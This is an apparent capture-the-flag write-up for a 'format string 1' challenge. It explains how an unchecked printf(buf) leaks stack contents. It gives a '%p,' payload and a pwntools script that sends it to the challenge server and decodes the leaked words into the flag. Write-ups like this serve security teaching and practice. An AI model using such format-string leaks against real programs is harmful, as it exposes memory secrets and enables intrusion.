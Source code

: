 # format string 1
This is similar to the previous format string challenge, where we are leveraging string formatting bugs in order to exploit the program to give us the flag.

In this case we are exploiting the fact that the user provided text is being put into `printf` directly with no sanity checks. These 2 lines:

```
scanf("%1024s", buf);
printf(buf);
``` 

Because `printf` has the header `int printf(const char *fmt, ...);` C will just pass whatever is after into the function without checking.

We use this and provide a string that will simply return whatever is on the stack depending on what we use as input.
On a 64 bit system, inputting 5x `%p` into the buf will give us `rsi, rdx, rcx, r8, r9`. One extra `%p` will then give us whatever is after those on the stack.

Hence, giving a string like: `s = "%p," * 18 + "\n"` as argument will give us 13 positions in the stack after r9.

Then its just a matter of finding where the flag is located and doing some little endian shenanigans in order to get the flag:

```
conn = remote(host, port)

print(conn.recvline())

conn.send(s)

s = conn.recvuntil("Bye!")

s = s.decode("utf-8").split(",\nBye!")[0]

s = s.split(",")[-5:]

out = ""
for i in s:
    out += bytearray.fromhex(i.split("0x")[1]).decode()[::-1]

print("flag:", out)

conn.close()
```